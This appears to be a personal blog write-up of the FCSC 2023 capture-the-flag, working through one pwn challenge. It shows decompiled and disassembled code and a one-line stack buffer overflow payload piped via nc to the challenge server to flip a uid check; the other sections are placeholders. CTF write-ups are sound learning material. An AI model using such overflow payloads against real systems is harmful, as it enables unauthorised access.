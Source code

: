 ```yaml
---
title: "FCSC - 2023 - Top 200"
date: 2023-04-30
draft: false
tags:
  - CTF
  - Forensic
  - Web
  - Pwn
  - Network
  - Windows
  - Disk
categories:
  - Write-ups
---
```


I participated in the [FCSC](https://france-cybersecurity-challenge.fr) for the second time this year. The first time was in 2019 and this I wanted to do better than the previous year. Before starting the CTF I hadn't done any CTF for a while or any cybersecurity related activities so it was a good way to get back into it. 
This post will mostly be useful for myself and also be a write-up for the challenges I have solved and found interesting. 

> Note that I mainly focused on web challenges as I am more comfortable with this type of challenge. I also did a few others.

## Intro - UUID
### Generalities
This challenge was the second one I did and I completed it way faster than I expected. 
The only thing that was given was a binary file. I started by running `file` on it to see what it was. 
```bash
❯ file  FCSC2023/pwn-uid/uid
FCSC2023/pwn-uid/uid: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=cbb3387e82ca3a751e8b9d6bafec0f2e1c342af0, for GNU/Linux 3.2.0, not stripped
```

As I was thinking, this looked like a pwn challenge. This isn't at all what I'm comfortable with yet, but I wanted to give it a try.

### Analysis

The first step was to open it with `cutter` to see what was happening inside. And here the C code was pretty clear.
```c
undefined8 main(void)
{
    int64_t var_38h;
    uint64_t var_ch;
    
    var_ch._0_4_ = geteuid();
    printf("username: ");
    fflush(_stdout);
    __isoc99_scanf(data.0000200f, &var_38h);
    if ((int32_t)var_ch == 0) {
        system("cat flag.txt");
    } else {
        system("cat flop.txt");
    }
    return 0;
}
```
The program is pretty simple: it gets the user id and then asks for a username. If the user id is 0, it will print the `flag.txt`; otherwise it will print `flop.txt`.
At this point, I knew I would have to create a simple buffer overflow to change the user id to 0.
> In fact, you can have a UID equal to 0 on a machine. It just means that you are the root user. Unfortunately, I didn't know that at the time.
> Plus, you're not root on the server, so you can't read the flag.

So I started by looking at the `scanf` function. I knew that it was vulnerable to buffer overflow, so I had to find the destination buffer size to make it overflow.
After reading the pseudo-code and drawing my experience (I did a few buffer overflow and used a bit of `cutter`), I found that:
- The buffer is at `@ stack - 0x38` (0x38 = 56).
- A local variable is at `@ stack - 0xc` (0xc = 12).
Knowing this, the buffer size is 56 - 12 = 44. So, I had to send 44 characters to make it overflow !  
(To be fully honest I used the decompiled code to find the buffer size and the local variable size. It's easier to read than the assembly code)
```asm
int main (int argc, char **argv, char **envp);
; var int64_t var_38h @ stack - 0x38
; var uint64_t var_ch @ stack - 0xc
0x00001175      push    rbp
0x00001176      mov     rbp, rsp
0x00001179      sub     rsp, 0x30
0x0000117d      call    geteuid    ; sym.imp.geteuid ; uid_t geteuid(void)
0x00001182      mov     dword [var_ch], eax
0x00001185      lea     rdi, str.username: ; 0x2004 ; const char *format
0x0000118c      mov     eax, 0
0x00001191      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x00001196      mov     rax, qword stdout ; obj.__TMC_END
                                   ; 0x4050
0x0000119d      mov     rdi, rax   ; FILE *stream
0x000011a0      call    fflush     ; sym.imp.fflush ; int fflush(FILE *stream)
0x000011a5      lea     rax, [var_38h]
0x000011a9      mov     rsi, rax
0x000011ac      lea     rdi, data.0000200f ; 0x200f ; const char *format
0x000011b3      mov     eax, 0
0x000011b8      call    __isoc99_scanf ; sym.imp.__isoc99_scanf ; int scanf(const char *format)
0x000011bd      cmp     dword [var_ch], 0
0x000011c1      jne     0x11d1
0x000011c3      lea     rdi, str.cat_flag.txt ; 0x2012 ; const char *string
0x000011ca      call    system     ; sym.imp.system ; int system(const char *string)
0x000011cf      jmp     0x11dd
0x000011d1      lea     rdi, str.cat_flop.txt ; 0x201f ; const char *string
0x000011d8      call    system     ; sym.imp.system ; int system(const char *string)
0x000011dd      mov     eax, 0
0x000011e2      leave
0x000011e3      ret
0x000011e4      nop     word cs:[rax + rax]
0x000011ee      nop
```

### The exploit
We are going to create a really simple exploit. We will send 44 characters to the program, plus `\x00` to overwrite the local variable and make it equal to 0.  
This way, we go inside the `if` statement and we can read the flag.
```bash
python3 -c 'print("A"*44 + "\x00")' | nc challenges.france-cybersecurity-challenge.fr 2100
```
And there we go, we have the flag !
<img src="/FCSC-2023/pwn-uid.png" alt="flag" width="700"/>

## Intro - La gazette de windows
*Coming soon*

## Intro - Tri Séléctif
*Coming soon*

## Intro - Comparaison
*Coming soon*

## Web - ENISA Flag Store 1/2
*Coming soon*

## Web - ENISA Flag Store 2/2
*Coming soon*

## Web - Salty Authentication
*Coming soon*

## Web - Hello from the inside
*Coming soon*

## Hardware - Fibonacci
*Coming soon*

## Forensic - Ransomémoire 0/3
*Coming soon*

## Misc - Tri Trés Séléctif
*Coming soon*
